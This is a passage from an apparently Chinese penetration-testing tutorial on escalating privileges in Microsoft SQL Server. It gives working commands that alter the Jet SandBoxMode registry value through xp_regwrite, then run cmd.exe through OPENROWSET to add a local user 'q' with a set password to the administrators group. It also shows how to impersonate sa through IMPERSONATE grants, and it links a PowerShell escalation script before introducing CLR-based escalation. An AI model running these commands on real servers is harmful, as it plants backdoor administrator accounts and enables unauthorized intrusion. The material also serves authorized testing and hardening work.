`exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',1`

SandBoxMode参数含义（默认是2）

`0`：在任何所有者中禁止启用安全模式

`1` ：为仅在允许范围内

`2` ：必须在access模式下

`3`：完全开启

-   利用 jet.oledb 执行系统命令添加用户

`select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net user q 123456q /add")')`

-   将 q 用户添加至管理员组

`select * from openrowset('microsoft.jet.oledb.4.0' ,';database=c:\windows\system32\ias\ias.mdb' ,'select shell("cmd.exe /c net localgroup administrators q /add")')`

### [](#55-%E5%88%A9%E7%94%A8-mssql-%E6%A8%A1%E6%8B%9F%E7%99%BB%E5%BD%95%E6%8F%90%E6%9D%83)5.5 利用 mssql 模拟登录提权

开发者有时为了满足某种需求，允许其他登录用户模拟高权限的用户，对于开发来说，一个再简单不过的功能。虽然严格意义上这不算个漏洞，但是这种配置不当一般可以用来提权。

#### [](#551-%E8%B5%8B%E4%BA%88%E7%94%A8%E6%88%B7-myuser1-%E6%9D%83%E9%99%90%E6%9D%A5%E6%A8%A1%E6%8B%9F-myuser2-myuser3%E5%8F%8Asa)5.5.1 赋予用户 MyUser1 权限来模拟 MyUser2, MyUser3,及sa

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>USE master;<br>GRANT IMPERSONATE ON LOGIN::sa to [MyUser1];<br>GRANT IMPERSONATE ON LOGIN::MyUser2 to [MyUser1];<br>GRANT IMPERSONATE ON LOGIN::MyUser3 to [MyUser1];<br>GO<br>``` |

#### [](#552--%E6%9F%A5%E6%89%BE%E5%8F%AF%E4%BB%A5%E6%A8%A1%E6%8B%9F%E7%99%BB%E5%BD%95%E7%9A%84%E7%94%A8%E6%88%B7)5.5.2 查找可以模拟登录的用户

默认情况下，系统管理员可以模拟任何人，但是正常登录必须分配权限来模拟特定的用户，使用 MyUser1 用户登录，打开新建查询，执行下面语句查询那些用户可以用来模拟登录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>SELECT distinct b.name<br>FROM sys.server_permissions a<br>INNER JOIN sys.server_principals b<br>ON a.grantor_principal_id = b.principal_id<br>WHERE a.permission_name = 'IMPERSONATE'<br>``` |

这里我们可以看到 MyUser1 用户可以模拟登录 sa, MyUser2, MyUser2 用户，接下来就是模拟登录 sa 来获取 sysadmin 权限了



#### [](#553--%E6%A8%A1%E6%8B%9F-sql-server-%E7%94%A8%E6%88%B7%E7%99%BB%E9%99%86)5.5.3 模拟 SQL Server 用户登陆

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>``` | ```sql<br>-- 验证是否为sysadmin权限<br>SELECT SYSTEM_USER<br>SELECT IS_SRVROLEMEMBER('sysadmin')<br>-- 模拟sa登录<br>EXECUTE AS LOGIN = 'sa'<br>-- 验证是否为sysadmin权限<br>SELECT SYSTEM_USER<br>SELECT IS_SRVROLEMEMBER('sysadmin')<br>``` |


#### [](#534-ps-%E5%B7%A5%E5%85%B7%E5%8C%96)5.3.4 PS 工具化

当然这个也可以用 powershell 一键实现：[脚本地址](https://raw.githubusercontent.com/nullbind/Powershellery/master/Stable-ish/MSSQL/Invoke-SqlServer-Escalate-ExecuteAs.psm1)

## [](#6-clr-%E6%8F%90%E6%9D%83)6 CLR 提权

通过回顾常见的手法，可以看出，在目标系统该做安全防护都做了的情况下，除了备份拿 shell 之外，其它的操作均需要 sysadmin 服务器角色。

对于部分常见手法的防护，网上提出了一些极端的修复方法，比如将存储过程和其相关的 DLL 文件删除，其它功能可能删除，但是删除 CLR 可能性应该不大，且不论禁用或者删除 .net 之后 SQL Server 还能不能正常运行，SQL CLR 功能强大，开发也可能使用它开发正常功能，删除无异于自废武功。

### [](#61-sql-server-clr-%E4%BB%8B%E7%BB%8D)6.1 SQL Server CLR 介绍

> 公共语言运行库(Common Language Runtime，CLR)是整个 .NET 框架的核心，它为 .NET 应用程序提供了一个托管的代码执行环境。它实际上是驻留在内存里的一段代理代码， 负责应用程序在整个执行期间的代码管理工作，比较典型的有：内存管理、线程管理、安全管理、远程管理、即使编译、代码强制安全类检查等，这些都可以成为 .NET 框架的生命线。

通俗来讲 CLR 就是 .NET 程序运行的基础。

**SQL Server 中的 CLR**

SQL CLR 是 SQL Server2005 出现的新功能，它将 .NET Framework 中的 CLR 服务注入到 SQL Server 中，让 SQL Server 的部分数据库对象可以使用 .NET Framework 的编程语言进行开发(目前只支持VB.NET和C#)，包括存储过程、用户自定义函数、触发器、 用户自定义类型以及用户自定义聚合函数等功能。


SQL Server 的 CLR 让我们可以用 C# 或者 VB 开发存储过程、用户自定义函数、触发器、用户自定义类型以及用户自定义聚合函数。但是我们最容易利用的是存储过程和触发器。触发器有 DDL 触发器和 DML 触发器两种，DDL 触发器对应的语句语句主要以 CREATE、ALTER 和 DROP 开头，DML 触发器对应的语句主要是 INSERT、UPDATE 或 DELETE，相比而言 DML 触发器更可控。

参考：

-   [https://xz.aliyun.com/t/8195](https://xz.aliyun.com/t/8195)
-   [https://github.com/aleenzz/MSSQL\_SQL\_BYPASS\_WIKI](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI)
-   [SQL Server的CLR在渗透测试中的应用](https://data.hackinn.com/ppt/HackingDay2020online/SQL%20Server%e7%9a%84CLR%e5%9c%a8%e6%b8%97%e9%80%8f%e6%b5%8b%e8%af%95%e4%b8%ad%e7%9a%84%e5%ba%94%e7%94%a8.pdf)
